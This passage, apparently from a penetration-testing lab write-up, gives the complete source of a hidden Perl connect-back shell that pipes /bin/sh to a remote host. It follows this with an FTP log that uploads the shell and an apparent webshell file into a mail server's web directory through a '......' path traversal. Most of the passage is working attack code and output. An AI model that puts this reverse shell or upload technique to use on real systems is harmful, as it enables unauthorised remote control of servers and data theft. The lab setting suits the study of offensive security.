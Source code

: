In addition to the webshell, it might be nice to have a reverse shell set up from the webserver to my box, so I can easily issue OS commands.  One of my friends (mr\_me) gave me a copy of cb\_shell.pl, I simply renamed it to corelanshell.pl and uploaded it to the webserver as well :-)

```
#!/usr/bin/perl
#
# Connect back shell version 0.0
# Created by Depth
# Full hide version
# Use: cb_shell.pl   
# netcat -l -p  (localhost)
# 

use IO::Socket;
$0 = $ARGV[2];
my $sock = new IO::Socket::INET (PeerAddr => $ARGV[0],PeerPort => $ARGV[1],Proto => 'tcp');
connect(CLIENT,$sockaddr); 

print $sock ":: Depth :: Connect Back Shell ::\n";
if(fork() == 0){
 STDIN->fdopen($sock,w);
 STDOUT->fdopen($sock,w);
 STDERR->fdopen($sock,w);
 system("/bin/sh");
 close($sock);
 exit;
}
```

Upload script in action (saves me some time when machines get reverted :) )

```
root@krypt2:/vpn/70# ftp -inv 192.168.6.70 < ftpcmd       
Connected to 192.168.6.70.
220-Complete FTP server
220 FTP Server v 3.3.0
331 Password required for devil
230 User devil logged in.
Remote system type is UNIX.
Using binary mode to transfer files.
250 Directory changed to "/MyDocuments/......".
250 Directory changed to "/MyDocuments/....../......".
250 Directory changed to "/MyDocuments/....../....../......".
250 Directory changed to "/MyDocuments/....../....../....../......".
250 Directory changed to "/MyDocuments/....../....../....../....../surgemail".
250 Directory changed to "/MyDocuments/....../....../....../....../surgemail/www".
200 Type set to I
local: corelanshell.pl remote: corelanshell.pl
200 PORT command successful.
150 Opening BINARY mode data connection for corelanshell.pl
226 Transfer complete.
519 bytes sent in 0.00 secs (2077.2 kB/s)
local: header.inc.php remote: header.inc.php
200 PORT command successful.
150 Opening BINARY mode data connection for header.inc.php
226 Transfer complete.
150397 bytes sent in 0.94 secs (156.4 kB/s)
221 Goodbye.
```
